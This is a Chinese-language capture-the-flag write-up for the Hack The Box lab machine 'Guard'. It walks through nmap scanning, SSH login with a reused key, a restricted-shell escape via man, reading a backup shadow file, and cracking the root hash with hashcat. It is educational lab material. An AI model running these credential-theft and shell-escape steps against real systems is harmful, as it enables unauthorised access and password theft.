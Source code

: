 # Guard
###### tags: `HTB_Starting Point`

1. 枚舉(Enumeration)
* 使用Ping指令確認VPN可以正常連線到靶機

![](https://i.imgur.com/Gf0Oulb.png)
由上圖可知，TTL值是63，可以推測目標靶機可能為Linux主機

* 使用Nmap做快速端口掃描，查看哪些Port是開放的，並將結果儲存
	* -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
	*  -v: Increase verbosity level (use -vv or more for greater effect)
	*  --open: Only show open (or possibly open) ports
	*  -p-: to scan ports from 1 through 65535.
	* -T4: You can specify them with the -T option and their number (0–5) or their name. The template names are paranoid (0), sneaky (1), polite (2), normal (3), aggressive (4), and insane (5). The first two are for IDS evasion.
	* -oN: Output scan in normal
```
sudo nmap -n -vv --open -T4 -p- -oN /nmap/Guard.namp 10.10.10.50
```
![](https://i.imgur.com/3UtBMqw.png)

![](https://i.imgur.com/z4O2N8Z.png)

可以發現只有22Port(SSH)是開啟的狀態

* 針對開啟的端口，更進一步使用NSE Scripts掃描(NSE可以像是NMAP的額外套件模組，增加NSE Scripts後，可以讓NMAP變成特定的弱點安全測試攻擊工具，(例如 XSS, CSRF, SQL injection, SSL heatbleed測試等)
	* -sC: equivalent to --script=default
	* -sV: version scan
```
sudo nmap -sC -sV -oN /nmap/Guard_Details -p 22 10.10.10.50
```
![](https://i.imgur.com/MZnxwoU.png)


從上圖結果可以得知，SSH版本信息，以及作業系統為Ubuntu Bionic

* 嘗試使用上一台靶機中Daneil帳戶以及rsa_key登入ssh(因為這是 Linux 機器，所有 Linux 機器都有一個規則：用戶名不能使用大寫字母。)所以我們改用daniel
```
ssh -i id_rsa daniel@10.10.10.50
```


2. 立足點(Foothold)

* 藉由SSH登入，我們獲得了一個一般使用者的帳號daneil
```
ssh -i id_rsa daniel@10.10.10.50
```
![](https://i.imgur.com/fiD3oSy.png)
* 確認一下帳號權限
```
whoami
```
* 接下來嘗試獲得一般使用者的Flag
```
ls -al |grep user.txt
cat user.txt
```
![Uploading file..._dds6y8fvi]()

* 會發現無法使用cat command!，這意味著某些command受到限制。(可以使用man命令生成bash shell並讀取用戶標誌)
```
man ls
shift + 1 
bash
!bash
```
![](https://i.imgur.com/3XIoix7.png)

3. 提權(Privilege Escalation)

* 嘗試探索一下檔案有沒有機敏資料，在/var/backups目錄底下，可以發現一個shadow檔案
```
ls -al /var/backups
```
![Uploading file..._4uj126myh]()

* 查看一下shadow檔案，可以發現root以及加密過後的金鑰
```
cat /var/backups/shadow
```
![](https://i.imgur.com/CN6t5GL.png)

* 將金鑰儲存在本地端Kali，並用Hashcat解密
```
vim hash
hashcat -m 1800 --force hash /usr/share/wordlists/rockyou.txt
```
![Uploading file..._2z13gn85a]()

* 可以得到破密後的金鑰為password#1

![Uploading file..._vuzv75b7r]()

* 使用破密後的帳密登入ssh
```
ssh root@10.10.10.50 
```
![Uploading file..._2l5l71wyv]()

* 獲得root Flag!
```
ls
cat root.txt
```
![Uploading file..._h513b9uni]()
